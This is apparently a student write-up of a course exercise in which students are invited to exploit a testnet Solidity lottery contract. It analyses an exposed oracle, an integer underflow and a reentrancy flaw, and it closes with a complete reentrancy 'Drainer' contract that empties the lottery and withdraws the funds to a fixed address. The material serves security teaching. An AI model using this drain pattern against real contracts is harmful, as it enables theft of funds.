

# Homework 14 - Lottery Game
## Instructions
Aim
The aim of the game is to get to the top of the leaderboard, so get as high a score as you
can, and make sure the other teams get a low score.
Playing the game
. Talk to your team mates and chose a team name
. Ensure your team has some Rinkeby ether, you will need about 0.5 ETH
If you need some ETH, go to Faucet or ask on sli.do
. You will need to have metamask installed
. Go to the game website : https://lottery.extropy.live/
5. Register your team, you need
A team name
Your wallet address
A password
To register your team, you will need to pass in some ETH.
Your team should now appear on the leader board
You can now play the game
5. Make a guess at the random number, you need to enter
Your teams address
Your guess at the random number (it is a small number < 50)
If you guess correctly you will get points, otherwise you will lose points
You will see that the contract has some ether, an additional challenge is to see if you can
drain the contract.
Contract code
These gists Lottery Oracle have the contract code
Read through the code and think how you can exploit it

## Analysis

Contract address is 0x44962eca0915Debe5B6Bb488dBE54A56D6C7935A. </br>
https://goerli.etherscan.io/address/0x44962eca0915debe5b6bb488dbe54a56d6c7935a#code
</br>
It uses an interface contract calle Oracle.sol where it gets its random number from.
```Solidity
interface IOracle {
    function getRandomNumber() external view returns (uint256);
}
```
The contract has an important guard onlyAdmins
```solidity
  modifier onlyAdmins() {
        require(admins[msg.sender], "Only admins");
        _;
    }
```
This addresses are added on the creation of the contract.
```solidity
    // Constructor - set the owner of the contract
    constructor(address _address) public {
        admins[msg.sender] = true;
        admins[0x0e11fe90bC6AA82fc316Cb58683266Ff0d005e12] = true;
        admins[0x7F65E7A5079Ed0A4469Cbd4429A616238DCb0985] = true;
        admins[0x142563a96D55A57E7003F82a05f2f1FEe420cf98] = true;
        admins[0x52faCd14353E4F9926E0cf6eeAC71bc6770267B8] = true;
        OracleAddress = _address;
		emit LogSetOracle(_address);
    }
```
### Issues
1. The oracle address is an argument of the constructor. This address allows anyone to call .getRandomNumber() from the lottery contract.
Since it is part of the constructor, it can be visualized directly on Etherscan (https://goerli.etherscan.io/address/0x44962eca0915debe5b6bb488dbe54a56d6c7935a#code) at the end of the page.
</br>

</br>

2. Any address being an EOA (externally owned account) or another contract can be registered as a team participant.
```solidity
    // register a team
    function registerTeam(address _walletAddress, string calldata _teamName, string calldata _password) external payable {
        // 1 gwei deposit to register a team
        require(msg.value == 1_000_000_000);
        require(registeredTeams[_walletAddress] == false, "Team already registered");
        // add team details
        teamDetails.push(Team(teamCounter, _walletAddress, _teamName, 5));
        passwords[teamCounter] = _password;
        registeredTeams[_walletAddress] = true;
        teamCounter++;
        emit LogTeamRegistered(_walletAddress, _teamName);
    }
```
3. On the makeAGuess function any address could generate a random number being registered as a team or not. Also, if they had a guess, they only get 100 points but if they had 0 points and did not guess the number, we get an underflow. This allows the team to get a number much bigger than 100 and trick the next function. This is solved on solidity versions ^0.8.0.
```solidity
    function makeAGuess(address _team, uint256 _guess) external returns (bool) {
        // Any call to this function can generate a random number
        uint256 random = IOracle(OracleAddress).getRandomNumber();
        for (uint256 i = 0; i < teamDetails.length; i++) {
            if (_team == teamDetails[i].teamAddress) {
                if (random == _guess) {
                    // give 100 points
                    teamDetails[i].points = 100;
                    emit LogTeamCorrectGuess(_team, teamDetails[i].name);
                    return true;
                } else {
                    // take away a point (!!!)
                    // Underflow is reached at this point if user has 0 points.
                    teamDetails[i].points -= 1; 
                    emit LogTeamWrongGuess(_team, _guess);
                    return false;
                }
            }
            emit LogTeamNotRegistered(_team);
        }
    }
```
4. This function allows any team to get paid if they have more than 100 points. This result was easily achived, even if you didn't guess the number due to the underflow condition. Also because the paying function is called before the state is changed, a reentrancy attack can  be done with a "team" registered smart contract.
```solidity
    // once the lottery has finished pay out the best teams
    function payoutWinningTeam(address _team) external returns (bool) {
        // if you are a winning team you get paid double the deposit (2 gwei)
        for (uint256 ii = 0; ii < teamDetails.length; ii++) {
            // any team would get more than 100 points due to the underflow.
            if (teamDetails[ii].teamAddress == _team && teamDetails[ii].points >= 100) {
                // no gas limit on value transfer call (!!!)
                (bool sent, ) = _team.call.value(2_000_000_000)("");
                if (sent) {
                // reentrancy attack possible since the state is changed after the transfer
                    teamDetails[ii].points = 0;
                    emit LogPayoutWinningTeam(_team);
                    return sent;
                }
                emit LogPayoutFailedLowBalance(_team);
                return false;
            }
        }
        emit LogPayoutFailed(_team);
    }
```
When this line is run - (bool sent, ) = _team.call.value(2_000_000_000)(""); this function is calling the "team" smart contract without any call data. That would trigger the "receive()" fallback function on the attacking contract that can loop over the payoutWinningTeam function.
</br> *Example of attack contract made by @ziad (Eth Denver student).*
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.6.0;

import "./Lottery.sol";
import "./Oracle.sol";

contract Drainer {
    Lottery lo = Lottery(0x44962eca0915Debe5B6Bb488dBE54A56D6C7935A);
    Oracle or = Oracle(0x0d186F6b68a95B3f575177b75c4144A941bFC4f3);

    // drain function is called once
    function drain() public {
        lo.makeAGuess(address(this), or.getRandomNumber());
        lo.payoutWinningTeam(address(this));
    }

    // receive() is called in a loop when the lottery smart contract makes the call without data.
    receive() external payable {
        if (gasleft() > 40_000) {
            // this start an infinite loop to cash out the lottery contract
            lo.payoutWinningTeam(address(this));
        }
    }

    function withdraw() public {
        (bool sent,) = address(0x36efd039149b9F5aF6aC75d85A8d3e9088bc7d4f).call.value(address(this).balance)("");
        require(sent);
    }
}
```